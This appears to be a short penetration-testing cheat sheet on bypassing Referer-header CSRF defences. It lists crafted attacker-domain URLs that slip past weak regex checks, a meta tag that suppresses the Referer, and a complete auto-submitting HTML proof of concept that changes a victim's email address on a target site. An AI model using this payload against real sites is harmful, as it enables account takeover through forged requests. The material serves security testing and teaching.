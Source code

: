 Some applications make use of the HTTP `Referer` header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. The following are possible bypasses for the `Referer` header based CSRF protection.

<br/>

**1) Check for Bad Regex**<br/>
Some websites will use regex to check if the website is contained in the referer. This regex could be broken. 

*Subdomain*
```
https://target.com.shelled.io/change_email
```

*Query*
```
https://shelled.io/change_email?target.com
```

<br/>
<br/>

**2) Check for referer Removed**<br/>
Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted. The following code will drop the referer header.
```
<meta name="referrer" content="never">
```

<br/>

*PoC*
```
<html>
    <body>
        <meta name="referrer" content="never">
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
